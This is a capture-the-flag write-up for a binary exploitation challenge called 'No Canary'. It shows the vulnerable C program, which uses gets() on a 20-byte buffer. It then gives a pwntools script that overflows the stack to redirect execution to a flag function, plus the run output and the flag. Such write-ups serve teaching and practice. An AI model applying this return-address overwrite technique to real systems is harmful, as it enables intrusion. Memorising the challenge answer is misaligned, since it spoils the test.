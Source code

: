 # No Canary
Binary Exploitation, 50 points

## Description
> Can you call the flag function in this [program](https://files.actf.co/244d7e58d711ecd9f1258bcdfec31119f4ebc015e6cd2067b0f8d427a7b43e3a/no_canary) ([source](https://files.actf.co/6ea07f713fcef63537e3d70e4502b8caf7c6fb0e0c751e4c3a0e514565f08f17/no_canary.c))?

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	puts("Ahhhh, what a beautiful morning on the farm!\n");
	puts("       _.-^-._    .--.");
	puts("    .-'   _   '-. |__|");
	puts("   /     |_|     \\|  |");
	puts("  /               \\  |");
	puts(" /|     _____     |\\ |");
	puts("  |    |==|==|    |  |");
	puts("  |    |--|--|    |  |");
	puts("  |    |==|==|    |  |");
	puts("^^^^^^^^^^^^^^^^^^^^^^^^\n");
	puts("Wait, what? It's already noon!");
	puts("Why didn't my canary wake me up?");
	puts("Well, sorry if I kept you waiting.");
	printf("What's your name? ");

	char name[20];
	gets(name);

	printf("Nice to meet you, %s!\n", name);
}

```

Hints:

* What's dangerous about the gets function?

## Solution

The vulnerability here is *buffer overflow*:

```c
printf("What's your name? ");

	char name[20];
	gets(name);
```

We override `main`'s return address by writing 40 bytes of garbage and then the address we want, in this case `flag()`.
On my machine I had problem with `movaps` instruction so in order to allign the payload I added a ret gadget


```python
from pwn import *
import sys

context.clear(arch='amd64', os='linux')

argv = sys.argv
binary_path = './no_canary'
REMOTE = False
DEBUG = False

if len(argv) > 1:
	if argv[1] == 'remote':
		REMOTE = True
	if argv[1] == 'debug':
		DEBUG = True

if REMOTE:
	sh = remote('shell.actf.co', 20700)
else:
	sh = process([binary_path])

if DEBUG:
	gdb.attach(sh, '''
		b* main+324
		''')

e = ELF(binary_path)

# ------------- plan -----------
# overwrite rip using bof with flag function

overflow_offset = 40
ret_gadget = 0x40101a

payload = fit({
	overflow_offset: p64(ret_gadget),
	overflow_offset + 8 : p64(e.sym['flag'])

	})

sh.sendline(payload)

print sh.recvall()
```

Output:
```console
yuvaly0@yuvalyo-blup:~/Desktop/CTFs/No_Canary_DONE$ python exploit.py remote
[+] Opening connection to shell.actf.co on port 20700: Done
[*] '/home/yuvaly0/Desktop/CTFs/No_Canary_DONE/no_canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Receiving all data: Done (497B)
[*] Closed connection to shell.actf.co port 20700
Ahhhh, what a beautiful morning on the farm!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Wait, what? It's already noon!
Why didn't my canary wake me up?
Well, sorry if I kept you waiting.
What's your name? Nice to meet you, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\x1a@!
actf{that_gosh_darn_canary_got_me_pwned!}
```